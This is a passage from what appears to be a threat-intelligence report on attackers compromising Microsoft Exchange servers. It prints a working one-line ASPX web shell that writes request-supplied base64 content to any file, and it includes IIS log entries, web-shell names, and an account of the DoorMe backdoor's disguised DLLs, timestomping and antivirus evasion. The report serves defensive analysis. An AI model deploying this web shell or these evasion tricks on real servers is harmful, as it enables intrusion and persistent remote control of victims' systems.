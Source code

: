 		


		In the contents of the target file, after applying the permutation encoding  NDB_CRYPT_PERMUTE , you can notice a single-line web shell.
		  Figure 9. Contents of the PST file 
			
script Language="C#" runat="server">void Page_Load(object s, EventArgs e){System.IO.File.WriteAllText(Context.Request["p"],Encoding.UTF8.GetString(Convert.FromBase64String(Context.Request["c"])));} /script
			
		


		Attackers send a GET request to the web shell.
					
17.08.2021	1:29:25	W3SVC1	-	-	GET	/aspnet_client/468749030.aspx	-	443	-	103.80.134.159	HTTP/1.1	Mozilla/5.0+(Windows+NT+6.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/91.0.4472.124+Safari/537.36	-	-	-	200	0	0	10415
			
		



	After the successful installation of the web shell, the attackers downloaded functional web shells and began to conduct reconnaissance on the compromised node. To detect attempts to exploit the vulnerability chain in the logs of the IIS server, you can use publicly available  YARA signatures  (useful information about these vulnerabilities can be found in these materials).).
	
2.3 Lateral movement

	The attackers exercised control over the infected nodes using ASPX web shells:
	

Tunnel.aspx;
Fileupload.aspx;
Errors.aspx;
Test.aspx.


	After gaining a foothold on the infected nodes, the attackers installed the backdoor DoorMe v2 (see the Analysis of malware and tools section) on two mail servers (Microsoft Exchange Server) on the victim's network. Selection of the names of malicious libraries (modrpflt.dll, protsdown.dll) and the names of the IIS server modules (modrpflt, protsdown) was an attempt to disguise malware as legitimate libraries. To hide malicious files, the attackers also changed timestamps (Timestomp) and assigned them the values of legitimate files.
	
  Figure 10. Configuration file applicationhost.config 
  Figure 11. Timestomp of the malicious library

	The attackers used a modified version of the DoorMe backdoor. Presumably, they modified the backdoor after its sample was uploaded to VirusTotal. As a result of the new obfuscation, most antivirus engines stopped detecting this malware.
	
  Figure 12. Antivirus engine detections for the old file
  Figure 13. Antivirus engine detections for the new file

		An example of executing a command through the DoorMe backdoor in the IIS logs:
	
			
17.08.2021	7:11:27	W3SVC1	-	-	POST	/owa/	-	443	-	91.204.227.130	HTTP/1.1	Mozilla/5.0+(Windows+NT+6.1;+WOW64;+rv:40.0)+Gecko/20100101+Firefox/40.1	IISSessions=79cfdd0e92b120faadd7eb253eb800d0	-	-	200	0	0	558
			